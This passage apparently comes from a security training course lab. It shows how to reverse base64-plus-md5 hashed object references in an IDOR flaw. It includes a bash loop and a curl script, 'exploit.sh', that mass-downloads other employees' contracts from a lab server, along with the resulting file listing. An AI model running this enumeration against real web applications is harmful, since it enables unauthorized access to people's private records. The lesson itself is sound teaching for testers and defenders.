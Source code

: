 We can test this by `base64` encoding our `uid=1`, and then hashing it with `md5`, as follows:
```
user@htb[/htb]$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```
Tip: We are using the `-n` flag with `echo`, and the `-w 0` flag with `base64`, to avoid adding newlines, in order to be able to calculate the `md5` hash of the same value, without hashing newlines, as that would change the final `md5` hash.

As we can see, this hash matches the hash in our request, meaning that we have successfully reversed the hashing technique used on the object references, turning them into IDOR's. With that, we can begin enumerating other employees' contracts using the same hashing method we used above.

### Mass Enumeration

Once again, let us write a simple bash script to retrieve all employee contracts. More often than not, this is the easiest and most efficient method of enumerating data and files through IDOR vulnerabilities. In more advanced cases, we may utilize tools like **Burp Intruder** or **ZAP Fuzzer**, but a simple bash script should be the best course for our exercise.

We can start by calculating the hash for each of the first ten employees using the same previous command while using `tr -d` to remove the trailing - characters, as follows:
```
user@htb[/htb]$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```
Next, we can make a POST request on `download.php` with each of the above hashes as the `contract` value, which should give us our final script:
```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```
With that, we can run the script, and it should download all contracts for employees 1-10:
```
user@htb[/htb]$ bash ./exploit.sh
user@htb[/htb]$ ls -1

contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
contract_f7947d50da7a043693a592b4db43b0a1.pdf
```
As we can see, because we could reverse the hashing technique used on the object references, we can now successfully exploit the IDOR vulnerability to retrieve all other users' contracts.
